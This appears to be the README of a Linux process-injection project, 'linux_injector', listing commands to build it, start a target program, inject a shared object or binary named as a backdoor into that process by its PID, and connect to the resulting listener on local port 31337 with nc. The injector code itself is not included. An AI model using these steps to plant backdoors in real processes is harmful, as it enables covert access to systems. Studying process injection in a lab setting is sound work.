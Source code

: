 # linux_injector
# linux_injector
1.make

2.In one terminal, run: ./saruman

3.In another terminal, run: "./lurker \`pidof saruman\` \`pwd\`/bkdoor_so.so"   OR  run："./lurker --b  `pidof saruman` bkdoor.o.bin"

4.then,you can run: nc 127.0.0.1 31337

